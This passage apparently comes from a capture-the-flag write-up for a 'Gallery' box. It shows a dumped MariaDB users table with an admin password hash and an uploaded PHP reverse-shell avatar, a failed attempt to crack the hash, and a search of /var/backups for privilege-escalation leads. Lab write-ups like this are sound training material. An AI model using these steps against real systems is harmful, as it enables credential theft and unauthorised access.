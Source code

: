 ```
+----------------------+
4 rows in set (0.00 sec)
```
The `users` tables looks kinda sussy, let's check that out.
```
MariaDB [gallery_db]> SELECT * FROM users;
+----+--------------+----------+----------+----------------------------------+------------------------------------------+------------+------+---------------------+---------------------+
| id | firstname    | lastname | username | password                         | avatar                                   | last_login | type | date_added          | date_updated        |
+----+--------------+----------+----------+----------------------------------+------------------------------------------+------------+------+---------------------+---------------------+
|  1 | Adminstrator | Admin    | admin    | a228b12a08b6527e7978cbe5d914531c | uploads/1651054320_php-reverse-shell.php | NULL       |    1 | 2021-01-20 14:02:37 | 2022-04-27 10:12:42 |
+----+--------------+----------+----------+----------------------------------+------------------------------------------+------------+------+---------------------+---------------------+
1 row in set (0.00 sec)
```
Yes! We found the admin hash!`a228b12a08b6527e7978cbe5d914531c`
However, I found this hash is uncrackable after cracking it 20 minutes. Let's found another Privilege Escalation vector.

After a couple minutes of nonsense, I found a `backups` directory at `/var`
Let's move to this directory.
```
(remote) www-data@gallery:/var$ ls -la
total 52
drwxr-xr-x 13 root root   4096 May 20  2021 .
drwxr-xr-x 23 root root   4096 Feb 12 21:42 ..
drwxr-xr-x  3 root root   4096 Apr 27 08:50 backups
---redacted---
```
```
(remote) www-data@gallery:/var/backups$ ls -la
total 60
drwxr-xr-x  3 root root  4096 Apr 27 08:50 .
drwxr-xr-x 13 root root  4096 May 20  2021 ..
-rw-r--r--  1 root root 34789 Feb 12 21:40 apt.extended_states.0
-rw-r--r--  1 root root  3748 Aug 25  2021 apt.extended_states.1.gz
-rw-r--r--  1 root root  3516 May 21  2021 apt.extended_states.2.gz
-rw-r--r--  1 root root  3575 May 20  2021 apt.extended_states.3.gz
drwxr-xr-x  5 root root  4096 May 24  2021 mike_home_backup
```
mike_home_backup, hmm...
```
(remote) www-data@gallery:/var/backups/mike_home_backup$ ls -la
total 36
drwxr-xr-x 5 root root 4096 May 24  2021 .
drwxr-xr-x 3 root root 4096 Apr 27 08:50 ..
-rwxr-xr-x 1 root root  135 May 24  2021 .bash_history
-rwxr-xr-x 1 root root  220 May 24  2021 .bash_logout
-rwxr-xr-x 1 root root 3772 May 24  2021 .bashrc
drwxr-xr-x 3 root root 4096 May 24  2021 .gnupg
-rwxr-xr-x 1 root root  807 May 24  2021 .profile
drwxr-xr-x 2 root root 4096 May 24  2021 documents
drwxr-xr-x 2 root root 4096 May 24  2021 images
```
Inside the documents directory, I found some credentials of mike?? Oh, it's useless for Privilege Escalation. Let's go back.
Then, I found the `.bash_history` is weird, since it's readable for us.
```
(remote) www-data@gallery:/var/backups/mike_home_backup$ cat .bash_history 
cd ~
ls
ping 1.1.1.1
```